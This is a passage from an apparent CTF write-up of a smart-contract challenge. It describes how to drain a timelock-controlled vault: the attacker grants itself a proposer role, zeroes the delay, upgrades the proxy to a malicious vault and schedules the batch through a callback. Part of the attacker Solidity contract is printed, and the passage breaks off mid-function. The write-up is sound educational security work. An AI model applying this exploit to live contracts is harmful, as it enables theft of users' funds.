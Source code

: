   <li>array of bytes called dataElements, first item will hold the value of the abi encoded function signature of grantRole function (this will be used to set the ClimberAttacker to have the PROPOSER_ROLE in order for ClimberAttacker contract to be able to schedule transactions inside ClimberTimelock); second item will hold the value of the abi encoded function signature of updateDelay (this will be used to update the delay inside ClimberTimelock to 0, so we don't have to wait 1 hour to execute a scheduled transaction); third item will hold the value of the abi encoded function signature of upgradeTo (this will update the vault (ClimberVault) proxy to point to the newly created malicious contract AttackerVault which will be the new update version of the vault); fourth item will hold the value of the abi encoded function signature of _setSweeper (inside the new version of the vault, we will set _setSweepet to be public so anyone can call it and we will set the sweeper of the vault to be the ClimberAttacker contract); fifth item will hold the value of the abi encoded function signature of makeSchedule function (we will add this function inside ClimberAttacker contract, it will be a callback function that ClimberTimelock contract will call after executing the last transaction sent to execute function)</li>
  </ul>
3. create attack function, inside this function we will call execute from ClimberTimelock with the previously prepared data, after the call has finished we will call sweepFunds() function from ClimberAttacker to sweep the funds from the vault
4. create makeSchedule function, inside this function we will call schedule from ClimberTimelock with the previously prepared data, this is a callback function that will be triggered after the last transction from execute is called



## Attacker contract code

ClimberAttacker.sol

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { PROPOSER_ROLE } from "./ClimberConstants.sol";

contract ClimberAttacker {
    address immutable timelock;
    address immutable vault;
    address immutable attackerVault;
    address immutable token;

    constructor(address payable _timelock, address _vault, address _attackerVault, address _token) {
        timelock = _timelock;
        vault = _vault;
        attackerVault = _attackerVault;
        token = _token;
    }

    // We call this function first (externally)
    function attack() external {
        bytes memory data = prepareData("execute(address[],uint256[],bytes[],bytes32)");
        
        (bool ok, ) = address(timelock).call(data);
        require(ok, "call failed");

        // This is called last
        sweepFunds();
    }

    // This is called second internally
    function makeSchedule() external {
        bytes memory data = prepareData("schedule(address[],uint256[],bytes[],bytes32)");
        
        (bool ok, ) = address(timelock).call(data);
```